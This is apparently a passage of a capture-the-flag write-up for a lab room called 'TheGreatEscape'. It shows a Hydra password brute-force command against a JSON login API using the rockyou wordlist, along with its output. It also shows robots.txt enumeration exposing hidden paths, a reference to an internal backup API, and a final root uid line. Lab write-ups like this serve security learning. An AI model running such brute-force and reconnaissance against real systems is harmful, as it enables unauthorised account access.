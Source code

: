 - did not work  :-(
</p>

```bash
:~/TheGreatEscape# hydra -l admin -P /usr/share/wordlists/rockyou.txt 'http-post://xx.xxx.xxx.xxx/api/login/:{"username"\:"^USER^","password"\:"^PASS^"}:H=Content-Type\:application/json:F=ERROR'
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-12 xx:xx:xx
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post://xx.xxx.xxx.xxx:80/api/login/:{"username"\:"^USER^","password"\:"^PASS^"}:H=Content-Type\:application/json:F=ERROR
[STATUS] 16.00 tries/min, 16 tries in 00:01h, 14344382 to do in 14942:04h, 16 active
[STATUS] 5.33 tries/min, 16 tries in 00:03h, 14344382 to do in 44826:12h, 16 active
[STATUS] 2.29 tries/min, 16 tries in 00:07h, 14344382 to do in 104594:28h, 16 active
```


<br>
<h3xx.xxx.xxxx.xxx</h3>


<br>
<h3>xx.xxx.xxxx.xxx/api/</h3>

<img width="1057" height="92" alt="image" src="https://github.com/user-attachments/assets/11e84ae1-cd50-402f-af6a-01b57412c48c" />

<br>
<h3>xx.xxx.xxxx.xxx/robots.txt</h3>

<img width="1056" height="298" alt="image" src="https://github.com/user-attachments/assets/fd23590f-9f3c-4f43-8e2d-a90acc2a64ad" />

<br>

```bash
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

<br>

<img width="1067" height="249" alt="image" src="https://github.com/user-attachments/assets/da2b7a77-8f6f-4ee4-973d-602dbde284cf" />

<br>

```bash
const response = await this.$axios.$get('http://api-dev-backup:8080/exif'
```

<br>
<p>

- uid=0(root) gid=0(root) groups=0(root)</p>
